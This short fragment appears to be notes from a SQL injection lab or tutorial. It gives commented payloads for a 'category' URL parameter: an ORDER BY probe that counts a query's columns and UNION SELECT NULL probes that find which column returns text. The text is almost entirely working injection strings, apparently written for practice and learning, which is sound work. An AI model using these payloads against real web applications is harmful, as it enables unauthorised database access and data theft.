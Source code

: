 #determine the number of columns
category=Corporate+gifts' order by 4--
category=Corporate+gifts' union select null,null,null --

#determine if a column contains text
category=Corporate+gifts' union select null,'text',null --

